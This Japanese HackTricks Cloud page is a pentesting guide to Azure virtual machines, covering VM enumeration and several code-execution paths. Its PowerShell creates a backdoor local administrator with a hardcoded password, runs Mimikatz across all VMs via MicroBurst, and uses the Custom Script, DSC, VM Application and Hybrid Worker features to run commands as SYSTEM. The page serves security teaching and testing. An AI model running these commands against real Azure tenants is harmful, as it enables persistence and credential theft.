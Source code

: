 # Az - 仮想マシン

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**最新バージョンのPEASSを入手したい**場合、またはHackTricksをPDFでダウンロードしたい場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をご確認ください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションをご覧ください
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしてください 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## 基本情報

Azureの仮想マシンは、Azureが提供する[オンデマンドでスケーラブルなコンピューティングリソース](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree)の一種です。通常、他の選択肢よりもコンピューティング環境をより細かく制御する必要がある場合に仮想マシンを選択します。この記事では、仮想マシンを作成する前に考慮すべき事項、作成方法、および管理方法について説明します。

## 列挙
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **VMでコマンドを実行する**

### **VMでのAADログイン**

AzureADで認証されたユーザーにアクセスを許可することができます。例えば、**Linux VM**にアクセスしようとする場合、`ssh username@azure-corp.com@1.1.1.1`（ログインしようとするときに使用したazurecorpのメールアドレスを使用することが重要です）と入力すると、次のようなエラーが発生する場合があります：

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

以下の手順に従ってください。[https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) にアクセスし、コードを入力し、メールアドレスとパスワードを資格情報として使用してSSH接続を行うことができます（ユーザーが十分な権限を持っている場合、`Virtual Machine Administrator Login`または`Virtual Machine User Login`の役割）。

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **カスタムスクリプト拡張の実行**

Azure仮想マシン（VM）拡張機能は、**小さなアプリケーション**であり、**Azure VM**上でのデプロイ後の設定と自動化**タスク**を提供します。たとえば、仮想マシンにソフトウェアのインストール、ウイルス対策、またはスクリプトの実行が必要な場合、VM拡張機能を使用できます。

したがって、書き込みアクセス権限がある場合、任意のコードを実行できます。
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState

**DesiredConfigurationState (DSC)**はAnsibleに似たツールであり、PowerShell内のホストをコードで設定することができます。DSCはAzure内での拡張機能を持ち、**構成ファイル**のアップロードを可能にします。DSCの[構成ファイル](https://docs.microsoft.com/en-us/powershell/dsc/getting-started/wingettingstarted?view=dsc-1.1#define-a-configuration-and-generate-the-configuration-document)は構文に関して厳格ですが、DSC拡張機能は非常に甘く、特定の形式に従っていれば**どんなコマンドでも盲目的に実行**します（図5参照）。

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

これは**Az PowerShell**の関数[**`Publish-AzvmdscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0)を使用して行うことができます。DSC拡張機能は、**.PS1**ファイルを要求し、それを**.zip**ファイルにパッケージ化します。実際にはこれは正しいDSC構文ではありませんが、拡張機能のステータスは「失敗」と表示されますが、コードは実行されます。問題は、このコマンドの出力がないことです。ステータスは失敗メッセージで上書きされるためです。

### VM Application Definitions

[VM Applications](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications)リソースは、Azure VMに**バージョン管理されたアプリケーションを繰り返しデプロイ**する方法です。たとえば、バージョン1.0の**プログラム**を作成し、すべてのAzure VMにデプロイした場合、プログラムを1.1に**更新**すると、同じVM Applicationを使用して別の定義を作成し、アップデートを任意のVMにプッシュすることができます。\
VMにアプリケーションをプッシュできるということは、別のコード実行経路が存在するということです。この方法の欠点は、Application Definitionの設定には[**いくつかの手順**](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications-how-to?tabs=portal)が必要ですが、Az PowerShellの**`New-AzGalleryApplication`**および**`New-AzGalleryApplicationVersion`**コマンドレットを使用して実行できます。

このテクニックは、アプリケーションをVMに適用すると自動的にインストールされる**拡張機能「VMAppExtension」**を利用します。この拡張機能は、URIからファイルをディスクにダウンロードし、アプリケーションの名前とまったく同じ名前で保存します。つまり、アプリケーションの名前が「AzApplication」であれば、ディスク上のファイルも「AzApplication」という名前で保存されます。これには、REST API呼び出しの「ManageActions」フィールドを設定してアプリケーションを適切な拡張子でリネームする必要があります。アプリケーション全体を実行したくない場合は、同じREST APIメソッドまたはAzure Portalを介してManageActionsフィールドを悪用して任意のPowerShellコマンドを実行することもできます。設定が完了すると、定義は図8と似たようなものになります。

<figure><img src="../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

この実行テクニックは残念ながら遅いです（アプリケーションまたはコマンドの実行に約3〜4分かかります）。ただし、比較的新しいため、特定の検出方法が書かれているかどうかは驚きです。

実行は拡張機能によって行われるため、アプリケーションのコピーは`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\`にあり、実行のステータスは`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`に保持されます。

### Hybrid Worker Groups

[**Hybrid Worker Groups**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker)（HWG）は、Automation Account内の構成された**Runbook**を、構成されたHWGの一部である**Azure Virtual machine**で実行できるようにします。再び、VMには拡張機能が使用され、RunbookコードがVMにデプロイされます。拡張機能が使用されるため、資格情報は無関係であり、コードは**SYSTEM**またはrootとして実行されます。

<figure><img src="../../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

Windows 10 VMを使用する場合、スクリプトの実行にはデフォルトではVMにインストールされていないPowerShellバージョン7.1ではなく、PowerShellバージョン5.1でRunbookを実行する必要があります。

## 参考文献

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* **HackTricksの広告を掲載**したい場合や、**最新版のPEASSを入手**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をご確認ください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)を手に入れましょう。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしましょう🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **HackTricks**と**HackTricks Cloud**のGitHubリポジトリにPRを提出して、あなたのハッキングテクニックを共有しましょう。

</details>

